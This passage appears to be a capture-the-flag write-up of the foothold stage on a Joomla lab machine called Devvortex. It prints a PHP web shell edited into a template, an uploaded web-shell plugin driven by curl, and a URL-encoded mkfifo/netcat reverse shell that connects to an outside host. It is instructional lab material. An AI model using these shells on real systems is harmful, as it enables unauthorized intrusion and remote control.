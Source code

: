 ## Foothold

We can edit the already added templates:

![alt text](/assets/images/active/devvortex-templates.png)

Since these templates have `.php` extension, we can try to upload a PHP web shell.

We make the following edits:

```php
  <script src="/media/templates/site/cassiopeia/assets/js/main.js"></script>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>

</body>

</html>
```

We don't have write permissions for the templates. 

One other possibility for getting a webshell is:

### Webshell Extension

[Github](https://github.com/p0dalirius/Joomla-webshell-plugin/tree/master)

Create a zip file:

```bash
zip -r joomla-webshell-plugin.zip Joomla-webshell-plugin
```

Just upload it: `http://dev.devvortex.htb/administrator/index.php?option=com_installer&view=install`

We now have a running web shell:

```bash
curl -X POST 'http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","stderr":"","exec":"id"}
```

Let's try to upload a reverse shell:

### Shell as www-data

```bash
curl -X POST 'http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php' --data 'action=exec&cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.16.30%201234%20%3E%2Ftmp%2Ff'
```
